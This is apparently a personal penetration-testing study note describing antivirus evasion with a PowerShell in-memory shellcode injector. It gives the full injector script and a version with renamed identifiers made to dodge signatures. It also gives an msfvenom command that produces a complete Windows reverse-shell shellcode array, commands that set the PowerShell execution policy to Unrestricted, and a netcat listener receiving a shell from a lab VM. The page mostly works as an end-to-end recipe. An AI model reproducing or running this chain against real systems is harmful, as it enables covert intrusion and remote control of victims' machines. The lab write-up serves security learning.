


# AV Evasion via Thread Injection
You can use a [powershell](../../computers/windows/powershell.md) script to interact with the [Windows](../../computers/windows/README.md) API and implement an [In-Memory Injection](bypassing-antivirus.md#In-Memory%20Evasion)script. The benefit of using a script over a [PE](../../computers/windows/PE.md) is that it's *more difficult* for AV systems to detect a malicious script, since it's execution is *from within an interpreter* (the script itself is not executable). There are some AV products which handle malicious script detection, but not many.
## PowerShell Memory Injection
The following script carries out a *well known* version of memory injection via powershell:
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28;
...

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
### Importing Functions & Creating a Thread
The script starts by importing `VirtualAlloc` (allocates memory) and `CreateThread` (creates execution threads), which are both Windows API functions. Specifically, they're being imported from the `kernel32.dll` DLL. Next, the script imports `memset` (writes arbitrary data to allocated memory) from the `msvcrt.dll` DLL. 

So, it's effectively allocating memory and then executing a new thread within the *currently running process* (and not in a remote one). 
### Allocating Memory for the Payload
Next, the script defines `sc` which is where you can *place your shell code* payload. Then, it uses `VirtualAlloc` to allocate memory for the payload. Once the appropriate length/ bytes of memory are allocated, it uses `memset` in a for loop to write our payload to the newly-allocated memory.
### Executing the Payload
Finally, it uses the `CreateThread` API to *create a new thread which will execute our payload*.
## Detection
If we were to upload this script to [Virus-Total](../../cybersecurity/TTPs/recon/tools/reverse-engineering/Virus-Total.md) as is, we would probably see the following:
28 of the 59 AV products flagged the script as malicious. But with scripts, AV vendors can only really rely on *static string signatures* related to portions of the code (like variable or function names). If we change some of the recognizable names in our script, then we can make our script less detectable.
### Changing Variable & Function Names
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];   
[Byte[]] $var1 = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28
...

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};
$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
We've changed `winFunc` to `var2` and we've also changed its `Name` property from the `Win32` to `iWin32`. Additionally, we've renames `sc` (our shell code) to `var1`. 
### Testing
Instead of uploading this to Virus Total again (since it will automatically be sent as a sample to all of the participating AV vendors), we can check to see if our shell script is less detectable by running it in a [VM](../../computers/containers-vms/virtual-machines.md) with one of the AV vendor products running (let's say Avira). Once the script is loaded on the VM, we can scan it with Avira (which was one of the vendors which flagged the original script in Virus Total), and see what we get.

With Avira open, we can just click Security --> Quick Scan to scan the whole VM device:
If changing the variable and function names worked, this is what we should see.
## Executing our Thread Injection
Once we've decided that our script will not be detected (in the target's environment and based on their AV implementation), we can exploit it. 
### Payload
First, we need a payload for the shell code (`sc`). We can get one from [MSFvenom](../../cybersecurity/TTPs/exploitation/tools/metasploit.md#MSFvenom):
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of powershell file: 1593 bytes
[Byte[]] $sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x5,0x68,0xc0,0xa8,0x32,0x1,0x68,0x2,0x0,0x1,0xbb,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xc,0xff,0x4e,0x8,0x75,0xec,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x0,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x1,0x1,0x8d,0x44,0x24,0x10,0xc6,0x0,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5
```
- `-p`: the payload to use (this one is from [metasploit](../../cybersecurity/TTPs/exploitation/tools/metasploit.md) itself), can also list the parameters after it (`LHOST` and `RHOST` in this case)
- `-f`: the format for the output
- `-v`: a custom variable name (`sc` for our shell code)
### Execution
Let's run our exploit on our Windows VM (with the AV system we've been testing it against). When we execute it in powershell, we'll probagbly see the following output:
```powershell
PS C:\Users\offsec\Desktop> .\bypass.ps1
.\bypass.ps1 : File C:\Users\offsec\Desktop\bypass.ps1 cannot be loaded because running scripts is disabled on this
system. For more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\bypass.ps1
+ ~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```
This is because the system's *Execution Policy* prevented our script from running. Execution Policies (in Windows) are set on a *per user* basis. Execution Policies are sometimes dictated by one or more [Active Directory](../../computers/windows/active-directory/active-directory.md#Active%20Directory) Group Policies (GPOs). But if they aren't then we can try to change the policy *for our current user*. 
#### Changing the User's Execution Policy
First, we need to use `Get-ExecutionPolicy` to see what the current policy is:
```powershell
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Undefined
```
Right now, it's listed as `Undefined`. Next, we can try to set our new policy by useing the `Set-ExecutionPolicy` cmdlet. We're going to give it the `ExecutionPolicy` flag (to set the new policy as `Unrestricted`) and the `Scope` flag (to limit the change to the current user). 
```powershell
PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help Module at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Unrestricted
```
### Listener
Now that we can execute our script, we need to start our [netcat](../../cybersecurity/TTPs/exploitation/tools/netcat.md) listener to listen for our reverse shell:
```bash
nc -lvnp 443
listening on [any] 443 ...
```
Now we can execute our script from the windows VM and see what we get on our netcat listener:
```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.50.1] from (UNKNOWN) [192.168.50.62] 64613
Microsoft Windows [Version 10.0.22000.675]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec>whoami
whoami
client01\offsec

C:\Users\offsec>hostname
hostname
client01
```
If we get the reverse shell, that means *we successfully evaded the AV system on the VM*. 